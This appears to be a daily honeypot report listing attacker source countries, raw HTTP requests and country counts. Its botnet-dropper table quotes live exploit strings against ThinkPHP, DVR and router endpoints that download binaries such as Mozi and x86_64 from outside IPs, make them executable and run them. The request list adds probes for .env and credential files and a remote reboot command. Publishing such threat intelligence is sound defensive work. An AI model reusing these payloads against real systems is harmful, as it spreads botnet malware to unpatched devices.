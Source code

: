 ```yaml
---
title: "Report: 2025-03-27 "
date: 2025-03-27
desciption: "Report: {today} "
tags: [repport, daily]
---
```


# Daily Report: 2025-03-27
interaction report on http service of various Hhoneypot around the world.
- [OT report simplified](#ot_simplified_report)
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## ot_simplified_report
simplified report for medium-level interactions with honeypots that mimic industrial systems (web site loading, or interactions with the website), for more contact us on social@shoggoth.industries.
| source_country   | targeted_country   |
|:-----------------|:-------------------|
| FR               | Singapore          |
| US               | Dubai              |
| CN               | Georgia            |
| DE               |                    |

## botnet_dropper_behaviour
| remote_addr     | request                                                                                                                                                                                                                                        |
|:----------------|:-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 175.107.1.221   | 27;wget%20http://%s:%d/Mozi.m%20-O%20->%20/tmp/Mozi.m;chmod%20777%20/tmp/Mozi.m;/tmp/Mozi.m%20dlink.mips%27$ HTTP/1.0                                                                                                                          |
| 117.72.77.99    | GET /shell?cd+/tmp;rm+-rf+*;wget+ 129.159.107.197/jaws;sh+/tmp/jaws HTTP/1.1                                                                                                                                                                   |
| 87.121.84.41    | POST /device.rsp?opt=sys&cmd=___S_O_S_T_R_E_A_MAX___&mdb=sos&mdc=cd%20%2Ftmp%3Brm%20-rf%20parm7%3B%20wget%20http%3A%2F%2F193.32.162.27%2Fbins%2Fparm7%3B%20chmod%20777%20parm7%3B%20.%2Fparm7%20sex HTTP/1.1                                   |
| 31.170.22.205   | GET /cgi-bin/live_api.cgi?page=satellite_list&id=&ip=$(chmod+777+/tmp;rm+-rf+/tmp/*;cd+/tmp;wget+http://31.170.22.205/dl18;curl+-O+http://31.170.22.205/dl18;sh+dl18) HTTP/1.1                                                                 |
| 211.143.108.124 | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]= 'wget http://5.255.115.56/x86_64 -O /tmp/.phpdsds; chmod 777 /tmp/.phpdsds; /tmp/.phpdsds php.x86' HTTP/1.1                  |
| 185.191.127.222 | POST /device.rsp?opt=sys&cmd=___S_O_S_T_R_E_A_MAX___&mdb=sos&mdc=cd%20%2Ftmp%3Brm%20arm7%3B%20wget%20http%3A%2F%2F45.87.43.37%2Farm7%3B%20chmod%20777%20%2A%3B%20.%2Farm7%20tbk HTTP/1.1                                                       |
| 222.133.54.222  | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]= 'rm -rf bejv86; wget http://176.65.134.201/bejv86 -O /tmp/.Aqua; chmod 777 /tmp/.Aqua; /tmp/.Aqua thinkphp.selfrep' HTTP/1.1 |
| 180.153.27.22   | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]= 'wget http://5.255.115.56/x86_64 -O /tmp/.phpdsds; chmod 777 /tmp/.phpdsds; /tmp/.phpdsds php.x86' HTTP/1.1                  |
| 61.130.11.82    | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]= 'wget http://5.255.115.56/x86_64 -O /tmp/.phpdsds; chmod 777 /tmp/.phpdsds; /tmp/.phpdsds php.x86' HTTP/1.1                  |
| 58.58.30.134    | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]= 'wget http://5.255.115.56/x86_64 -O /tmp/.phpdsds; chmod 777 /tmp/.phpdsds; /tmp/.phpdsds php.x86' HTTP/1.1                  |
| 84.195.192.75   | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]= 'wget http://5.255.115.56/x86_64 -O /tmp/.phpdsds; chmod 777 /tmp/.phpdsds; /tmp/.phpdsds php.x86' HTTP/1.1                  |

## request

The list of requests presented here are those that have not yet been yet integrated into the [request database.](https://blog.shoggoth.industries/database/request_database/)

|     |   number_of_occurence | request                                                                                                  |
|----:|----------------------:|:---------------------------------------------------------------------------------------------------------|
| 143 |                     5 | GET /static/css/chunk-fffbd800.3e1a8b72.css HTTP/1.1                                                     |
| 238 |                     2 | POST /device.rsp?opt=sys&cmd=___S_O_S_T_R_E_A_MAX___&mdb=sos&mdc=busybox%20reboot%20&&%20reboot HTTP/1.1 |
| 280 |                     1 | GET /PbBh HTTP/1.1                                                                                       |
| 285 |                     1 | GET /ARVt HTTP/1.1                                                                                       |
| 307 |                     1 | \x00\x0E\x08\xB2\x1F\xE8\x07\xE0\xD8\xD0\xBE\x00\x00\x00\x00\x00                                         |
| 308 |                     1 | \x00\x0E8\xB2\x1F\xE8\x07\xE0\xD8\xD0\xBE\x00\x00\x00\x00\x00                                            |
| 332 |                     1 | GET /config.phpinfo HTTP/1.1                                                                             |
| 385 |                     1 | \x00\x0E\x08v\xAELWH1{\xA6\x00\x00\x00\x00\x00                                                           |
| 395 |                     1 | \x00\x0E8v\xAELWH1{\xA6\x00\x00\x00\x00\x00                                                              |
| 423 |                     1 | POST /cgi-bin/cgi_main.cgi HTTP/1.1                                                                      |
| 446 |                     1 | GET /socket.io/1/?t=1743038285763 HTTP/1.1                                                               |
| 475 |                     1 | GET /lib/.env HTTP/1.1                                                                                   |
| 501 |                     1 | GET /OdinHttpCall1743114175 HTTP/1.1                                                                     |
| 516 |                     1 | PORT 81, HEAD /robots.txt HTTP/1.0                                                                       |
| 524 |                     1 | GET /Nmap/folder/check1743111188 HTTP/1.1                                                                |
| 525 |                     1 | GET /NmapUpperCheck1743111188 HTTP/1.1                                                                   |
| 526 |                     1 | GET /nmaplowercheck1743111188 HTTP/1.1                                                                   |
| 531 |                     1 | GET /odinhttpcall1743050364 HTTP/1.1                                                                     |
| 548 |                     1 | GET /Odin/http/call1743114175 HTTP/1.1                                                                   |
| 557 |                     1 | GET /odinhttpcall1743114175 HTTP/1.1                                                                     |
| 558 |                     1 | GET /OdinHttpCall1743050364 HTTP/1.1                                                                     |
| 561 |                     1 | GET /stage/.env HTTP/1.1                                                                                 |
| 567 |                     1 | GET /Odin/http/call1743050364 HTTP/1.1                                                                   |
| 665 |                     1 | GET /credentials HTTP/1.1                                                                                |
| 687 |                     1 | GET /API/.env HTTP/1.1                                                                                   |
| 695 |                     1 | GET /skin/default_1/images/logo.png HTTP/1.1                                                             |
| 697 |                     1 | GET /image/lgbg.jpg HTTP/1.1                                                                             |
| 706 |                     1 | GET /nobody/favicon.ico HTTP/1.1                                                                         |
| 711 |                     1 | GET /Odin/http/call1743060215 HTTP/1.1                                                                   |
| 712 |                     1 | GET /OdinHttpCall1743060215 HTTP/1.1                                                                     |
| 713 |                     1 | GET /odinhttpcall1743060215 HTTP/1.1                                                                     |
| 716 |                     1 | GET /infos/ HTTP/1.1                                                                                     |

## country_iso_code

|    |   number_of_occurence | country_iso_code   |
|---:|----------------------:|:-------------------|
|  0 |                   647 | NL                 |
|  1 |                   475 | FR                 |
|  2 |                   411 | US                 |
|  3 |                   408 | BG                 |
|  4 |                   231 | DE                 |
|  5 |                   161 | GB                 |
|  6 |                   161 | CN                 |
|  7 |                    92 | HK                 |
|  8 |                    82 | PL                 |
|  9 |                    54 | SG                 |
| 10 |                    50 | CH                 |
| 11 |                    47 | VN                 |
| 12 |                    35 | JP                 |
| 13 |                    26 | SC                 |
| 14 |                    25 | RU                 |
| 15 |                    17 | IN                 |
| 16 |                    13 | CA                 |
| 17 |                    12 | GE                 |
| 18 |                    11 | NG                 |
| 19 |                    11 | AU                 |
| 20 |                    10 | BE                 |
| 21 |                    10 | GH                 |
| 22 |                     9 | NO                 |
| 23 |                     8 | ID                 |
| 24 |                     7 | IR                 |
| 25 |                     7 | AZ                 |
| 26 |                     7 | LT                 |
| 27 |                     7 | PT                 |
| 28 |                     6 | TH                 |
| 29 |                     6 | ZA                 |
| 30 |                     5 | TR                 |
| 31 |                     4 | BR                 |
| 32 |                     3 | LV                 |
| 33 |                     3 | UA                 |
| 34 |                     3 | IE                 |
| 35 |                     2 | RO                 |
| 36 |                     2 | KR                 |
| 37 |                     1 | BD                 |
| 38 |                     1 | PH                 |
| 39 |                     1 | PK                 |
| 40 |                     1 | PE                 |
| 41 |                     1 | MD                 |
| 42 |                     1 | MC                 |
| 43 |                     1 | AE                 |
| 44 |                     1 | YE                 |
| 45 |                     1 | IT                 |
| 46 |                     1 | CO                 |

